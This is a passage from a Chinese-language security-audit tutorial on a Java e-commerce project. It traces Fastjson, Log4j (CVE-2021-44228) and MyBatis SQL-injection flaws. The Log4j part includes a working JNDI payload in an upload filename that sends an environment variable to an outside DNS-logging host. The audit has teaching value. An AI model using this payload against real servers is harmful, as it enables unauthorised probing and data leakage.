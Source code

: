 至此，Fastjson漏洞验证之旅已结束，通过burp方式，我们证明了该地方存在Fastjson反序列化漏洞。

### 1.2 log4j反序列化

#### 白盒审计

本项目引入的Log4j版本为2.10.0-
2.0<log4j<2.14.1 存在CVE-2021-44228漏洞

由于Apache Log4j2某些功能存在递归解析，攻击者可在未经身份 验证的情况下构造发送带有攻击语句的数据请求包，最终造成在目标服务器上执行任意代码。-
其中涉及到的lookup的主要功能就是提供另外一种方式以添加某些 特殊的值到日志中，以最大化松散耦合地提供可配置属性供使用者 以约定的格式进行调用。-
该组件漏洞主要发生在引入的log4j-core，log4j-api是不存在该问题的。log4j-core是源码，log4j-api是接口。-
pom.xml文件引入Log4j组件情况如下图所示，引入了log4jcore，以及版本为2.10.0。基本确定存在问题，验证还需进一步 寻找能触发的漏洞点。-
![image.png](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2Fimage.3001.net%2Fimages%2F20221031%2F1667187989_635f4515d08c7e4979873.png%21small)-
由于SprinBoot默认自带日志记录框架，一般不需要引入，在 pom.xml中剔除出去。如下图所示：-
![image.png](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2Fimage.3001.net%2Fimages%2F20221031%2F1667187997_635f451dd8a6d278c1eb2.png%21small)

寻找漏洞触发点

> 一共分为五个级别：**DEBUG、INFO、WARN、ERROR和FATAL**-
> 五个级别是有顺序的\*\*DEBUG < INFO < WARN < ERROR < FATAL \*\*

全局搜索关键字logger，如下图可以看出，本项目使用 logger.info级别记录日志方式居多。-
![image.png](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2Fimage.3001.net%2Fimages%2F20221031%2F1667188009_635f45291e2815cc2eb43.png%21small)-
大多漏洞分析文章使用logger.error去做调试。两者区别在于默 认记录信息不同，这套代码则大部分使用logger.info而两者知识默 认记录的内容不一样，至于出发反序列化都是一样的 经过一番探索，发现有几处日志记录拼接了变量参数，让我们看看 这些参数是否是从前端传来的。如下图所示：-
![image.png](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2Fimage.3001.net%2Fimages%2F20221031%2F1667188031_635f453fef55d685a3641.png%21small)-
双击即可进入该代码文件，该文件位于 src\\main\\java\\com\\xq\\tmall\\controller\\admin\\AccountCon troller.java。该代码文件位于Controller层，主要用于和视图交 互，处理用户输入的数据等操作。-
关键代码如下图所示：-
![image.png](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2Fimage.3001.net%2Fimages%2F20221031%2F1667188049_635f455142b4ac1a1fb0c.png%21small)-
对上述代码进行分析。触发漏洞点的代码为65行的 logger.info("获取图片原始文件名：{}", originalFileName);。 向上追踪，发现通过file.getOriginalFilename();获取file的文 件名后赋值给originalFileName。在向上追踪，file参数来自 admin/uploadAdminHeadImage接口

#### 黑盒验证

下面就是两种方法：-
第一：根据注释提示可以看出来为管理员头像上传功能。-
第二：根据代码拼数据包，用一个上传图片的数据包来改-
![image.png](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2Fimage.3001.net%2Fimages%2F20221031%2F1667188062_635f455eb065357bd159e.png%21small)-
修改filename=“${jndi:ldap://${env:OS}.b0gbfq.dnslog.cn}”-
![image.png](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2Fimage.3001.net%2Fimages%2F20221031%2F1667188094_635f457e136ad5d081f26.png%21small)

### 1.3 Mybatis-sql注入

#### 白盒审计

通过对pom.xml的审计，发现使用Mybatis框架，则对全局${进行 搜索，由于我们关注的是mybatis中的拼接，因此只需要关注 xxxMapper.xml-
![image.png](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2Fimage.3001.net%2Fimages%2F20221031%2F1667188109_635f458dbc95412127fe5.png%21small)-
找到拼接sql语句的id-
![image.png](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2Fimage.3001.net%2Fimages%2F20221031%2F1667188119_635f45974193b57b6a92d.png%21small)-
根据id和返回的Map定位调用该sql语句的接口，也可以在idea 中安装“ Free Mybatis plugin ”插件，通过插件一键定位-
![image.png](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2Fimage.3001.net%2Fimages%2F20221031%2F1667188134_635f45a6da9f55f30f9fe.png%21small)-
依次向上推，找到调用iml接口的dao层方法ctrl+左键-
![image.png](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2Fimage.3001.net%2Fimages%2F20221031%2F1667188147_635f45b36307d0be26f61.png%21small)-
点击getList，它的orderUtil不为空-
![image.png](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2Fimage.3001.net%2Fimages%2F20221031%2F1667188159_635f45bf91568f9b1e3cb.png%21small)-
orderUtil对象相关的是orderBy 和isDesc相关，对这连个参数进行跟踪-
![image.png](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2Fimage.3001.net%2Fimages%2F20221031%2F1667188184_635f45d834be0e5208b1f.png%21small)-